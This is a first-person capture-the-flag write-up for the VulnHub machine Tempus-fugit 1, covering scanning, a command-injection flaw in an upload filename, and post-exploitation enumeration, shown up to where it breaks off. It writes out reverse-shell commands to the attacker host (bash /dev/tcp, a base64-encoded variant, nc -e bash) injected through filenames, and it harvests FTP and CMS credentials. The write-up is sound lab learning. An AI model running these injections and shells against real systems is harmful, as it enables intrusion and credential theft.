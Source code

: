 ﻿# Tempus-fugit 1

This is the first time I am attempting a CTF. I've gone through walkthroughs of few CTFs before. The resources I follow are hackingarticles.in and [ippsec.rocks](https://ippsec.rocks/?#). The box can be downloaded from [vulnhub](https://www.vulnhub.com/entry/tempus-fugit-1,346/). This is a few months old box.


# Network Scanning

I've imported the .ova file using virtualbox and put both the kali vbox and the Tempus-fugit vbox (target) in the same NATNetwork. The ip target machine can be found using `netdiscover` tool. Since my kali has an ip of 10.0.2.12 and both are in the subnet 10.0.2.0/24, we can use the range parameter in netdiscover to easily find the ip `netdiscover -r 10.0.2.0/16`. From the list of ips found, we can identify the target machine. We can then use `nmap` to find what ports are open on the target machine (its 10.0.2.14 in my case)
```
nmap -sC -sV -oA nmap/nmap 10.0.2.14
# Nmap 7.70 scan initiated Mon Feb 24 02:38:03 2020 as: nmap -sC -sV -oA nmap/nmap 10.0.2.14
Nmap scan report for 10.0.2.14
Host is up (0.00014s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.15.3
|_http-server-header: nginx/1.15.3
|_http-title: Tempus Fugit
|_http-trane-info: Problem with XML parsing of /evox/about
MAC Address: 08:00:27:22:DA:48 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 24 02:38:11 2020 -- 1 IP address (1 host up) scanned in 8.01 seconds
```
# Enumeration
From nmap data, we can see that there is a nginx web server hosted on port 80 and we can connect to it using http. The site looks pretty simple. It has a main page and upload page. There is nothing interesting from the page source, except that it looks like a template. The stuff section of the page has many cards which pop up modals. Nothing interesting here.

![clicking the cards pop up these modals](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/stuff.png)

The about section mentions something about an ftp server where scripts can be uploaded. This might be out point of injection.

![about section of the page](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/about.png)

Next, the page has a contact us with multiple forms for name, mail, etc. But whatever the input is, the site responds with an error saying the mail server is not responding

![contactus](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/contactus.png)

The upload page has two buttons to browse and upload files. After selecting a file, the file name gets displayed on the page. So, we can try any XSS vectors here

![browse](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/browse.png)

after the files is uploaded, the contents of the file are displayed on the page. This is interesting, so i tried to check if it executes if there's a command inside a file. But it just shows the command instead.

![command](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/command.png)

Since its just showing the contents of file, the server might just be using `cat` on the file name to do this. If that's the case, we can append a command in the filename which gets executed after `cat`. To try this, I uploaded a file 'new3.txt;whoami'. Infact, we can append multiple commands seperated by ';'. This was successful and the command `whoami` gets executed and returns root

![whoami- root](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/whoami.png)

this can be used as a command injection point to spawn a reverse shell. The best way to iterate is using burp suite's repeater. Here are some observations from uploading files with various commands in the name:
* there are two requests during the upload- a POST request with filename parameter. The response to this is a session cookie from the server, which will be passed in the second request (GET). The response to this is a html with the command executed. In case of `ls` after filename, the output html has the following:

![ls](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/ls.png)

* the cookie changes everytime there is a new request
* only .txt and .rtf files can be uploaded. The server gives an error saying that only these types are accepted
* reverse shell can be created using bash - `bash -i >& /dev/tcp/10.0.2.12/9001 0<&1`, but unix doesn't allow filenames to have '/' in them. So we cannot use this. I've tried exporting command to an env variable and using it while creating a file, didn't help.
* But we don't have to create a file. Since its a parameter in the request, we can modify the request in burp repeater. But still this doesn't work and gives a 500 error

![500 error](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/500.png)

* if there is any '.' in the command, server rejects it saying that its not a text file. So, we cannot add ip addresses in the command
* there are numerous ways to get a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), but all these methods need to have ip address in the command. 
* one way to eliminate the '.' and '/' is by encoding the command. `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTIvOTAwMSAwPiYxCg==` is the base64 encoded version of `bash -i >& /dev/tcp/10.0.2.12/9001 0<&1`. I created a file and with the name `“new.txt;echo ‘YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTIvOTAwMSAwPiYxCg==’ | base64 -d > revShell”`. The plan here is to create a file (revShell) in server and then execute it with the next file - `"new.txt;bash revShell"`.  And at the same time, use `nc` to start a listener on the same port (9001) on kali using `nc -lvnp 9001`. Unfortunately, this didn't work and i don't recall why.
* I tried the same process with `nc` based reverse shell (`nc -c bash 10.0.2.12 9001`) as well. This time, the session has established, but I was unable to run any commands and the server returned error *cannot connect to FTP-server*

![session established](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/session.png)
![FTP timeout](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/ftp-server.png)

* one more thing I wanted to try was appending another command to the filename, this time with a .txt extension. I used the filename "new.txt;nc 10.0.2.12 9001 -e bash; a.txt". This should work even though the last command `a.txt` doesn't make any sense. And it worked. This is the first time i got a reverse shell and i was too excited

![shell!! yay](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/firstshell.png)

- we can use `python -c 'import pty;pty.spawn("/bin/bash")'` to prettify the terminal
- I've also used `stty raw -echo` on the kali terminal so that I can use tabbing on this shell

The next step is to get the root flag, which is usually in /root. There's a message.txt file, but it says 'you are not done yet'

![damn!](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/message.png)

Since there are some files we found with `ls` command, lets examine the files.
* most of the files are pretty normal, js and htmls
* the interesting on is the main.py, which runs a flask app to serve the uploads page. All the checks in filenames we discovered so far are coming from this file.
* it also has the credentials of ftp server. We can use it later at some point

![ftp-creds](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/ftp-creds.png)

* to see what's going on the server, I ran [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). It's an amazing tool which enumerates all the useful data on the machine.
* From the linenum output, we can see that we're inside a docker container. This makes sense as there was a docker message during target bootup

![docker](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/docker.png)

* there are few file in the root directory- there's another file *entrypoint.sh* which looks to be creating *nginx.conf* file. There's also a *start.sh* script which runs another script */app/prestart.sh*
* another interesting grab from linenum is the history files. *.python_history* has some interesting information

![enter image description here](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/pyhistory.png)

* the arp table from linenum shows few ips
* 
![enter image description here](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/arp.png)

* The FTP port should be open on one of these ips. We can check this using `nc -zv 172.19.0.100 21` command
* 
![nc](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/nc-zv.png)

* since 172.19.0.12 has port 21 open, we can connect it using ftp. From the conf files linenum found, there are lftp files. So, server might be using lftp to connect to the FTP server. Using the credentials from main.py, I was able to login. Apart from all the files I earlier uploaded while getting reverse shell, there is a *cmscreds.txt* file which has some credentials
* 
![cmscreds](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/cmscreds.png)

* linenum also shows *resolv.conf* which has interesting 
* 
![resolv](https://github.com/noobfromPitt/CTFadventures/blob/master/vulnhub/Tempus-fugit/images/resolv.png)

I spent a lot of time after this point but didn't find any leads. So, i looked up other walkthroughs where people used `add apk nmap` to install nmap and scan the ips for open ports.
